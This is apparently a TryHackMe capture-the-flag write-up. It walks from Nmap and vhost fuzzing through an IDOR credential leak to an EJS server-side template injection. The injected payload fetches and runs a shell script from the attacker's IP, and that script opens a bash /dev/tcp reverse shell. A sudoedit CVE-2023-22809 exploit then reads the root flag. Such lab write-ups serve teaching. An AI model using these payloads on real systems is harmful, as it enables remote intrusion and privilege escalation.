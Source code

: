 ```yaml
---
layout: post
title: testing
date: 2025-04-19
categories: [CTF, SSTI]
tags: [Tryhackme]
---
```


### Nmap
```
22/tcp open  ssh     syn-ack ttl 60 OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)

80/tcp open  http    syn-ack ttl 60 nginx 1.14.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.14.0 (Ubuntu)

```
Given creds from the challange `Olivia Cortez:olivi8`

# Enumeration

## HTTP (80)

### Dirsearch

- Nothing Intresting

### Vhost Fuzzing

```
www                     [Status: 200, Size: 252, Words: 19, Lines: 9, Duration: 167ms]
admin                   [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 167ms]
```

### admin.cyprusbank.thm

- Login page 
- `Olivia Cortez:olivi8` Using this credentials we can login

![Admin_panel]([https://tryhackme-images.s3.amazonaws.com/user-avatars/83d369e0ec4156eef0b33faeed69346d.png](https://c00lrabbit.github.io/assets/Images/WhiteR-Adm-panel.png)){: .center-image }{: w="600" h="400" }

## IDOR in msg
![[Pasted image 20250417215321.png | 1000]]

```
Found these creds using IDOR

Gayle Bev : p~]P@5!6;rs558:q
```

Since Gayle is admin we can login as admin using these creds

## Found SSTI in `/settings` 

![[Pasted image 20250417230306.png | 1000]]
- We found ejs and found a RCE about that https://security.snyk.io/vuln/SNYK-JS-EJS-2803307

```
# SSTI Payload
name=test&password=test&settings[view%20options][outputFunctionName]=x;process.mainModule.require(%27child_process%27).execSync('curl http://10.17.49.29:8000');s
```
- We got a hit in our python server
![[Pasted image 20250417232348.png | 500]]

Shell.sh
```bash
bash -i >& /dev/tcp/10.17.49.29/9001 0>&1
```

payload
```
name=test&password=test&settings[view%20options][outputFunctionName]=x;process.mainModule.require(%27child_process%27).execSync('curl http://10.17.49.29:8000/shell.sh|bash');s
```
- we got a shell and user flag

# Privilege Escalation

```bash
sudo -l

(root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm

sudoedit -v
```

#### Sudo version 1.9.12p1 leads to a vulnerability

https://www.vicarius.io/vsociety/posts/cve-2023-22809-sudoedit-bypass-analysis

exploit
```
export EDITOR="vi -- /root/root.txt"

sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

- We got the root flag
